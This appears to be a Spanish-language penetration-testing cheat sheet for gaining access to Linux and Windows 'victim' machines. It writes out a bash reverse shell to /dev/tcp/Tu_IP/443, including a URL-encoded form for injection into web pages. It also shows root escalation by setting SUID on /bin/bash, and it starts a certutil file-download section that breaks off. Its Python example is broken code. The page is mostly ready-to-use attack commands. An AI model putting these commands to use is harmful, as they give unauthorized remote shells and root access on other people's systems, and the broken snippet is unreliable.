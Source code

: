 <h2 id="Bash">Conectarse Remotamente con Bash</h2>

Esta es una forma simple de conectarse remotamente en una máquina que usa Linux.

* Vamos a usar el siguiente script:
```bash
bash -c "bash -i >& /dev/tcp/Tu_IP/443 0>&1"
```

* Si lo necesitas para una página web, debes **url encodearlo** cambiando los ampersands por **%26**.
```bash
bash -c "bash -i >%26 /dev/tcp/Tu_IP/443 0>%261"
```

<h2 id="Escalar">Escalar Privilegios con Chmod</h2>

¿Quieres escalar privilegios de forma sencilla? Usa **chmod** para hacerlo, aquí un par de ejemplos:

* Si tienes privilegios como SUDO para **chmod**, solamente escribe el siguiente comando:
```bash
chmod u+s /bin/bash
```

* Si lo necesitas para un script en Python, solo escribe:
```bash
os import
chmod u+s /bin/bash
```

* Ahora, escala privilegios con bash:
```bash
ejemplo@test:$ bash -p
bash-4.3# whoami
root
```

<h2 id="Escalar2">Escalar Privilegios con Binarios SUID</h2>

Este blog, en inglés, explica algunas formas en las que puedes escalar privilegios, recomiendo que lo veas:
* <a href="https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/" target="_blank">Linux Privilege Escalation using SUID Binaries</a>


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Windows" style="text-align:center;">Windows</h1>
</div>
<br>


<h2 id="Certutil">Descargar Archivos con Certutil Windows</h2>

¿Necesitas descargar archivos en una máquina víctima que usa Windows? Has lo siguiente:

* En tu máquina, abre un servidor en Python en donde tengas el archivo que quieras cargar:
```bash
python3 -m http.server                                                                     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
